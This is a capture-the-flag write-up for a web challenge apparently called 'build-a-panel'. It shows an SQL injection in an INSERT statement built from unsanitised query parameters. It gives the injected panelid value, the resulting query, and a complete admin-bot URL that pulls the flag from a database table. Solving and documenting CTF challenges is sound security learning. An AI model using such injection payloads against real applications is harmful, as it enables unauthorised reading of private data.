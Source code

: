 So we that if we can execute ``SELECT flag from flag`` we will get the flag.

Using the admin bot, we can use the add_widget function.

So here is the query:

```
INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}
```

The panel ID is one of the cookies given to use (identifies that it is our panel), the widget name and data are displayed for all of widgets in the database in code. We can do something that looks like this, where the injection goes in panel ID:

```
'8ca7797a-8268-400a-b75a-6abaf7564694'', (SELECT flag from flag), '1');--
```

So the query looks like this: 

```
INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('8ca7797a-8268-400a-b75a-6abaf7564694'', (SELECT flag from flag), '1');-- , '${queryParams['widgetname']}', '${queryParams['widgetdata']}
```

Here is the url we give to the admin bot. Keep in mind panel id is my cookie for my panel, if you want to use your panel change it to your ID.

Make sure to include dummy widetname and widgetdata values.

```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=8ca7797a-8268-400a-b75a-6abaf7564694', (select flag from flag limit 1), '1');--&widgetname=1&widgetdata=1
```

And going back to the panel, we get the flag:

> dice{ch41n_ChAIn_aNd_m0Re_cHaIn}